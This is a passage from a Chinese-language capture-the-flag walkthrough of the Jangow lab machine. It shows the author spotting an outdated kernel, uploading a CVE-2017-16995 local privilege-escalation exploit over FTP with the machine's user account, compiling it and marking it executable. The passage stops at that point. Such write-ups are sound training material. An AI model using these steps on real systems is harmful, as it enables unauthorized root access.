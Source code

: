 然后尝试登录靶机试试：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401231626268.png" alt="image-20240123131519187" style="zoom: 50%;" />

发现内核版本过低，查找相关漏洞：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401231626269.png" alt="image-20240123131851451" style="zoom:50%;" />

我改名为`cve-2017-16995.c`了！将文件进行ftp传过去：

```shell
┌──(root㉿kali)-[/home/kali/nmap/jangow]
└─# ftp 192.168.56.118
Connected to 192.168.56.118.
220 (vsFTPd 3.0.3)
Name (192.168.56.118:kali): jangow01
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put cve-2017-16995.c 
local: cve-2017-16995.c remote: cve-2017-16995.c
229 Entering Extended Passive Mode (|||39018|)
553 Could not create file.
ftp> ls
229 Entering Extended Passive Mode (|||7501|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        0            4096 Oct 31  2021 html
226 Directory send OK.
ftp> cd /home/jangow01
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||16802|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000           33 Jun 10  2021 user.txt
226 Directory send OK.
ftp> put cve-2017-16995.c 
local: cve-2017-16995.c remote: cve-2017-16995.c
229 Entering Extended Passive Mode (|||6339|)
150 Ok to send data.
100% |********************************| 13728       50.74 MiB/s    00:00 ETA
226 Transfer complete.
13728 bytes sent in 00:00 (3.13 MiB/s)
```

然后编译：

```shell
gcc cve-2017-16995.c -o cve-2017-16995
```

提升一下权限：

```shell
chmod +x ./cve-2017-16995
```
